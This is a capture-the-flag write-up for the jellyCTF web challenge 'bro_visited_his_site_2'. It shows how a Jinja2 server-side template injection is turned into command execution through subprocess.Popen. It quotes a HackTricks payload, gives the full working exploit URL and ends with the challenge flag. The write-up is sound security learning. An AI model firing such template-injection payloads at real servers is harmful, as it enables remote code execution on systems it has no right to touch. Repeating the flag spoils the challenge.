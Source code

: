 # bro_visited_his_site_2

## Difficulty

Easy

## Points Earned

453

## Description

> ok, but can you get /app/flag.txt
> 
> note: this is not the flask secret - that's the first bro_visited_his_site
> 
> 20 point hint: list of techniques for the vuln class
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

## Solution

Somehow we need to execute a shell command to print the contents of `flag.txt`. Doing some Googling about template injection (https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), I found out that I needed to access the global object and use Popen to read `flag.txt`. This is the snippet that caught my attention:

> ### RCE
> ```python
> # The class 396 is the class <class 'subprocess.Popen'>
> {{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,> stdout=-1).communicate()[0].strip()}}
> ```

When we visit `https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()`, we are greeted with a massive list of classes. The index of Popen here isn't the same as it is in the HackTricks article above, so I had to look for it myself.

After finding Popen's index, I plugged it into the rest of the URL to get the flag:

```python
https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()[520]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

![bro_visited_his_site_2 solution](./images/bro_visited_his_site_2_sol.png "bro_visited_his_site_2 solution")

## Flag

`jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`